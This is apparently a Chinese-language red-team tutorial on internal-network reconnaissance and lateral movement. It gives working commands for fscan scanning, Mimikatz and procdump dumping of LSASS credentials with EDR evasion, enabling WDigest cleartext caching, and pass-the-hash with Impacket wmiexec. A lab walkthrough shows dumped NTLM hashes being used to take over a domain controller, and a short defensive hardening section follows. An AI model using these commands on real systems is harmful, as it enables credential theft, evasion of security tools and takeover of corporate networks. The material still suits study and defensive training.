


# 内网主机发现与横向移动手法全景

---

## 0. 基础前置知识扫盲：进入内网前的核心概念

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


对于初学者而言，拿到了外网 Web 服务器的 WebShell 之后，往往会产生困惑：“我已经拿到权限了，为什么渗透才刚刚开始？内网到底是什么？”

### 1. 为什么 WebShell 只是起点？（DMZ 隔离区与核心内网）
在现代企业架构中，面对公网提供服务的服务器通常被放置在 **DMZ 区（Demilitarized Zone，非军事化区/隔离区）**。
- **边界防御机制**：公网用户只能访问 DMZ 区内的特定端口（如 80、443）。DMZ 区的主机即便被入侵，默认情况下也无法直接访问企业核心数据中心。
- **边界内网**：DMZ 区主机通常拥有两张网卡：一张绑定公网 IP，另一张绑定内网 IP（如 `192.168.10.x` 或 `10.0.0.x`）。
- **横向移动的目标**：黑客通过受控的 DMZ 服务器作为跳板，突破内网防火墙，横向探测并控制内网中的其他服务器（如文件服务器、财务系统、数据库集群）甚至**域控制器（DC）**，最终掌控整个企业 IT 基础设施。

### 2. 工作组（Workgroup） vs 域环境（Active Directory）
这是 Windows 内网最核心的两个概念，初学者必须清晰区分：

| 维度 | 工作组（Workgroup） | 域环境（Active Directory / AD） |
| :--- | :--- | :--- |
| **生动比喻** | **“散装居民楼”**：每家每户装自己的防盗门，各有各的钥匙。 | **“五星级酒店”**：所有房间由前台统一发房卡，总卡（域管）能开所有门。 |
| **认证管理** | **分散认证**：每台机器维护自己的本地用户数据库（SAM 文件），机器 A 的管理员密码对机器 B 完全无效（除非管理员偷懒设了相同密码）。 | **集中认证**：由一台核心服务器——**域控制器（Domain Controller, DC）** 统一存储所有用户、计算机与权限信息（`ntds.dit` 数据库）。 |
| **适用规模** | 家庭局域网、微型工作室（少于 10-20 台主机）。 | 中大型企业、政府机构、高校（成百上千台主机）。 |
| **核心协议** | NTLM 认证协议、NetBIOS、SMB。 | Kerberos 协议、LDAP 目录服务、DNS、SMB。 |
| **终极目标** | 逐台获取本地 Administrator 权限。 | 获取 **Domain Admin（域管理员）** 凭据，直接控制域控（DC）。 |



---

## 1. 存活主机探测与服务快速指纹识别

在通过代理或跳板机进入内网后，首要任务是**绘制内网拓扑**。盲目扫描可能触发内网 IDS/IPS 或 EDR 告警，因此需要合理选择探测方式。

### 1.1 系统内置命令被动信息收集（无文件落地、无流量噪音）
在受控 Windows/Linux 主机上优先执行原生命令：

```powershell
# 1. 查看本机网络接口与路由表
ipconfig /all
route print

# 2. 查看 ARP 缓存表（收集最近与本机通信过的内网 IP 和 MAC 地址）
arp -a

# 3. 查看当前登录域与域控制器信息
net view /domain              # 查看有哪些域
net group "domain controllers" /domain   # 查看域控制器计算机名
nltest /dclist:domain.com     # 查看域控列表及对应 IP

# 4. 查看当前用户的特权与组
whoami /all
net user /domain              # 枚举域内所有用户
```

### 1.2 高速内网扫描利器：`fscan` 工具链深度解析
在授权内网渗透中，`fscan` 是国内红队最常用的内网一键综合扫描工具。它采用 Go 语言静态编译，支持主机存活探测、端口扫描、常见服务弱口令爆破及高危漏洞 PoC 检测。

```bash
# 典型扫描命令示例
./fscan -h 192.168.10.0/24 -p 22,80,443,445,135,1433,3306,3389,7001,8080 -np -nopoc -o result.txt
```

#### fscan 核心参数详细对照表：
| 参数名 | 完整含义 | 推荐配置与作用 | 安全与反检测建议 |
| :--- | :--- | :--- | :--- |
| `-h` | Host 目标主机/网段 | 支持 CIDR（如 `192.168.1.0/24`）或单 IP、IP 文件。 | 务必明确范围，避免越界扫描其它网段。 |
| `-p` | Port 扫描端口列表 | 默认扫描常见端口；可自定义如 `-p 1-65535` 或精简端口。 | 在敏感内网，仅扫描 135, 445, 3389 可极大降低流量特征。 |
| `-np` | No Ping | **跳过 ICMP 存活探测**，直接进行 TCP 端口探测。 | **强烈推荐**。许多内网主机禁 Ping（开启 Windows 防火墙），不加此参数会漏掉全部存活主机。 |
| `-nopoc`| No POC | **关闭 Web 漏洞 POC 扫描**。 | **推荐初期开启**。fscan 内置数百个 Web POC，全量发包会产生海量 HTTP 请求日志，极易触发 SOC 告警。 |
| `-m` | Mode 指定模块 | 如 `-m ssh`（仅 SSH 爆破）、`-m smb` 等。 | 针对特定服务定点定向爆破，减少发包。 |
| `-t` | Threads 并发线程数 | 默认 600。 | 内网链路带宽较窄或存在行为检测时，建议下调至 50-100。 |
| `-o` | Output 输出文件 | 将扫描结果保存到磁盘文件。 | 若需要无文件落地，可去掉此参数直接在内存管道中捕获输出。 |

---

## 2. 内存凭据抓取（Credential Dumping）：Mimikatz 与 LSASS

在内网中，“凭据就是王道”。只要在跳板机上提取到了高权限账号的密码明文或 NTLM Hash，就能在内网畅行无阻。

### 2.1 凭据存储机制：LSASS 与 SAM
- **SAM 文件（Security Account Manager）**：存储在本地注册表 `HKLM\SAM` 中，存放**本地计算机用户**的 NTLM Hash。当机器关机时静态存在于磁盘中。
- **LSASS 进程（Local Security Authority Subsystem Service）**：Windows 系统的安全核心进程。用户登录后，其明文密码（若开启 WDigest）、NTLM Hash、Kerberos TGT 票据会缓存在 `lsass.exe` 进程内存中，以便实现用户在访问网络资源时的单点登录（SSO）。

### 2.2 Mimikatz 核心命令语法逐行剖析
Mimikatz 必须在 **Administrator 或 SYSTEM** 权限下运行：

```text
# 1. 提升当前进程安全特权至调试权限
privilege::debug

# 2. 从 lsass 内存中抓取所有已登录用户的明文密码与 NTLM Hash
sekurlsa::logonpasswords

# 3. 导出本地 SAM 数据库中的 Hash
lsadump::sam

# 4. 导出内存中的 Kerberos 票据
sekurlsa::tickets /export
```

#### Mimikatz 命令核心参数深度剖析：
1. **`privilege::debug`**：
   - **底层原理**：调用 Windows API `AdjustTokenPrivileges`，为当前 Mimikatz 进程启用 `SeDebugPrivilege` 特权。
   - **为什么需要**：普通进程没有权限跨进程读取其他系统核心进程（尤其是 `lsass.exe`）的虚拟内存地址空间。只有拥有 Debug 权限的进程，才能调用 `OpenProcess` 和 `VirtualAllocEx` / `ReadProcessMemory` 遍历内存页。
2. **`sekurlsa::logonpasswords`**：
   - **底层原理**：定位 `lsass.exe` 进程内存中的 `msv1_0.dll`（负责 NTLM 认证）、`wdigest.dll`（负责 HTTP 摘要明文密码）、`kerberos.dll`、`tspkg.dll` 等安全支持提供者（SSP）模块的数据结构链表，解密解包其中的用户名、域名、NTLM Hash 与明文口令。
   - **关于 Win 8.1 / Server 2012+ 明文密码显示为 null 的问题**：微软在更新中默认关闭了 WDigest 的明文内存缓存。此时只能抓到 NTLM Hash。若想强制抓明文，可修改注册表开启 WDigest，等待管理员注销重登：
     ```cmd
     reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
     ```

### 2.3 免杀与 EDR 规避：Procdump 离线转储内存
直接在安装了 360、火绒、Defender 或各类 EDR 的主机上运行 Mimikatz 会被瞬间秒杀。实战标准规范是**使用微软官方白名单工具转储转储文件（Dump），拉回本地解密**：

```powershell
# 步骤 1：利用微软 Sysinternals 官方签名的 procdump64.exe 导出 lsass 内存镜像
# -accepteula: 自动同意最终用户许可协议
# -ma: 写入完全内存转储（Full dump）
# -n: 目标进程名
procdump64.exe -accepteula -ma lsass.exe C:\windows\temp\lsass.dmp

# 步骤 2：下载 lsass.dmp 到本地 Kali/攻击机，使用本地 Mimikatz 离线解密
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" exit
```

---

## 3. 横向移动技术与执行通道深度对比

拿到内网某台机器的管理凭据后，攻击者需要将指令下发到目标服务器并执行。常见的横向协议有：**SMB（445 端口）** 与 **WMI（135 端口）**。



### 3.1 核心横向工具横向深度对比表
| 横向工具 | 依赖端口 | 权限需求 | 文件落地 | 系统日志特征 | EDR 检测难度 | 推荐场景 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| **PsExec** | 445 (SMB) | 本地 Admin / 域管 | **是**（释放 `PSEXESVC.exe`） | **严重**：产生 Event 7045（新服务安装）、4697 | 极易被杀，静态特征明显 | 传统老旧内网、排错运维 |
| **SMBExec** | 445 (SMB) | 本地 Admin / 域管 | **否**（伪造 BATCH 服务） | **中**：产生服务创建/删除事件 | 中等 | SMB 端口开放但无法写可执行文件时 |
| **WMIExec** | 135 (RPC) + 445 | 本地 Admin / 域管 | **否**（无 EXE 落地，仅临时结果文本）| **极低**：调用标准 WMI 接口，无服务安装日志 | **极难被杀**（红队首选） | **现代内网攻防对抗实战标配** |
| **WinRM** (Evil-WinRM)| 5985 (HTTP) / 5986 (HTTPS)| Remote Management Users / Admin | **否**（原生 PowerShell Remoting） | **低**：标准远程管理流量 | 极难检测（自带合法流量伪装） | 目标开启 WinRM 服务的 Windows Server |

---

## 4. 哈希传递攻击（Pass-The-Hash, PTH）机制与实战

在实战中，常常抓不到明文密码，只能得到类似如下形式的字符串：
```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:32ed87b7a312044cb52e72cb3dd43e93:::
```
其中 `32ed87b7a312044cb52e72cb3dd43e93` 就是 **NTLM Hash**。

### 4.1 为什么不需要明文密码也能认证成功？
1. **NTLM 质询/响应机制（Challenge/Response）**：
   - 客户端向服务端发起登录请求。
   - 服务端生成一个 16 字节的随机数（Challenge）发回客户端。
   - **关键点**：客户端使用用户密码的 **NTLM Hash**（而不是明文密码！）对 Challenge 进行加密运算，生成 Response。
   - 服务端同样用保存的 Hash 加密 Challenge 进行比对。
2. **逻辑漏洞本质**：
   既然加密算法的输入密钥本身就是 **NTLM Hash**，那么攻击者只要掌握了 Hash，就可以在不知道明文密码的情况下，直接完成数学计算并通过认证！

### 4.2 Impacket 工具链实战 PTH 横向命令详解

在 Kali 或安装了 Python Impacket 库的环境中，使用 `wmiexec.py` 结合 Socks5 代理进行无明文横向控制：

```bash
# 语法模板：
# proxychains -q python3 wmiexec.py -hashes <LM_HASH>:<NTLM_HASH> <DOMAIN>/<USER>@<TARGET_IP> "<COMMAND>"

# 实战命令演示（通过代理对内网目标 192.168.10.50 执行命令）：
proxychains4 -q python3 wmiexec.py -hashes :32ed87b7a312044cb52e72cb3dd43e93 administrator@192.168.10.50 "whoami && ipconfig"
```

#### 参数分解：
- `-hashes :32ed87b7...`：前导冒号代表 LM Hash 为空（现代 Windows 均禁用弱加密 LM Hash，直接留空即可），后面紧跟 32 位十六进制 NTLM Hash。
- `administrator@192.168.10.50`：若是本地管理员，域名可留空；若是域账号，写作 `CORP.LOCAL/domain_admin@192.168.10.50`。
- 执行后将返回一个半交互式 Shell，所有命令通过 WMI 异步执行，回显自动从 `ADMIN$` 临时文件中读取并回传。

---

## 5. 综合实战演练：从边界 WebShell 到横向打穿内网靶场

### 场景拓扑说明（经典 Vulnstack / CTF 综合内网靶场）：
- **攻击者主机**：公网 Kali（IP: `1.1.1.1`）
- **DMZ Web 边界机**：Windows Server 2008（公网 IP: `1.1.1.2`，内网 IP: `192.168.52.143`）
- **内网域成员机（PC）**：Windows 7（内网 IP: `192.168.52.138`）
- **内网域控制器（DC）**：Windows Server 2012（内网 IP: `192.168.52.128`，域名: `god.org`）

### 阶段 1：边界拿下与 Socks5 隧道搭建
通过 Web 漏洞（例如 ThinkPHP RCE 或 Shiro 反序列化）向边界机写入 WebShell。
利用此前笔记学过的 FRP，在边界机启动 FRP 客户端，反向打通 Socks5 隧道至攻击机 `1080` 端口。

### 阶段 2：信息收集与存活探测
在攻击机通过 `proxychains4` 调用 `fscan`：
```bash
proxychains4 fscan -h 192.168.52.0/24 -p 135,445,3389 -np -nopoc
```
**扫描结果命中**：
- `192.168.52.143`（本机，开放 135, 445）
- `192.168.52.138`（存活，开放 135, 445, 3389）
- `192.168.52.128`（存活，开放 53, 88, 135, 445, 389 - 具备典型 Kerberos/LDAP 域控特征）

### 阶段 3：边界主机凭据转储
在边界机执行 Procdump 导出 LSASS，并在本地 Mimikatz 中解密：
```text
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
...
Username : Administrator
Domain   : GOD
NTLM     : 29754f91e30e9f1f49e327e6eb8e40cf
```
成功获取到域管理员 `GOD\Administrator` 的 NTLM Hash！

### 阶段 4：哈希传递横向接管域控
直接使用 `wmiexec.py` 针对域控执行 PTH：
```bash
proxychains4 python3 wmiexec.py -hashes :29754f91e30e9f1f49e327e6eb8e40cf GOD/Administrator@192.168.52.128
```
**终端成功返回交互界面**：
```text
[*] SMBv2.1 dialect used
[!] Direct command execution is not supported by WMI. Launching shell...
[+] [192.168.52.128] Successfully authenticated!
C:\> whoami
god\administrator
C:\> hostname
OWA-DC
```
至此，攻击者通过横向移动直接掌控了核心域控制器，内网渗透圆满通关。

---

## 6. 蓝队防御监控与纵深加固基线

1. **启用 LSA 保护（RunAsPPL）**：
   - 在注册表中开启 `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\RunAsPPL = 1`。
   - 启用后，`lsass.exe` 进程将以受保护进程（PPL）身份运行，非签名驱动程序或未经微软签名的调试器即使具备 SYSTEM 权限也无法直接读取 LSASS 内存。
2. **凭据保护（Credential Guard）**：
   - 基于虚拟化安全（VBS）技术，将 NTLM Hash 与 Kerberos 凭据隔离存储在受保护的虚拟容器（Isolated User Mode）中，杜绝 Mimikatz 内存提取。
3. **禁用内网敏感管理端口与协议**：
   - 限制内网各网段之间互通，办公网与服务器网之间默认禁止 135、445、5985 等端口的非必要通信。
   - 禁用已过时的 SMBv1 协议。
4. **日志监控告警规则（SIEM / SOC 监测点）**：
   - 监控 Windows 事件 ID **7045**（新服务安装 - 检测 PsExec 特征服务）。
   - 监控事件 ID **4624（登录类型 3，网络登录）** 伴随大量来自单主机的短期管理员认证。
   - 监控 WMI 进程调用日志（`WmiPrvSE.exe` 派生 `cmd.exe` 或 `powershell.exe` 的异常父子进程行为）。
